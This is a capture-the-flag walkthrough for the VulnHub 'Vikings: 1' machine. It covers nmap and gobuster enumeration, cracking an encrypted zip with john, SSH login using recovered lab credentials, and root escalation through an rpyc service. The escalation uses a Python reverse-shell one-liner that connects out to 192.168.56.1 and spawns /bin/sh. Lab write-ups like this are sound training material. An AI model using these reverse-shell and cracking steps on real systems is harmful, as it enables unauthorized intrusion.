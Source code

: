 # Info

Vikings: 1

https://www.vulnhub.com/entry/vikings-1,741/

A CTF machine with full of challenges.

Do what is visible, no rabbit holes.

Learn new things, and make sure that you enum first then hack.

Discord- luckythandel#6053 {for any-hint}.

# My rating
Fun: 5/5
Interresting: 5/5
Difficult: 3/5

# Enumeration 

```bash
$ nmap 192.168.56.1/24

Nmap scan report for 192.168.56.11
Host is up (0.0010s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![web server](01.png)


```bash
gobuster dir --wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt --url=192.168.56.11/site -x txt,php,sh,zip,gz,tar.gz,rar -r

```

![war txt](02.png)


```bash
wget http://192.168.56.11/site/war-is-over/
cat index.html | base64 -d > binary
```

```bash
file binary                                                                     
binary: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

```bash
zip2john binary > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
binary/king:ragnarok123:king:binary:binary
```
![picture](03.png)

Check for stego but no luck.


![binwalk](04.png)

```bash
cat user                           
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7
``` 

```bash
ssh floki@192.168.56.11
using password --> Worked!
```

![ragnar flag](05.png)

![puzzlee](06.png)

using https://cyberchef.org to cleanup the output
![cyberchef](07.png)

su ragnar
pass: mR)|>^/Gky[gz=\.F#j5P(


Check the apps that are run as root

```bash
ps aux| grep root

```
There is a supicious python application running
![supicious app](08.png)


Searching on the web I found:
![warning](09.png)


The reverse shell worked using port 80
```bash
python3
>>> import rpyc
>>> conn = rpyc.classic.connect('localhost')
>>> conn.execute('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')
```
Reverse shell:
![warning](10.png)



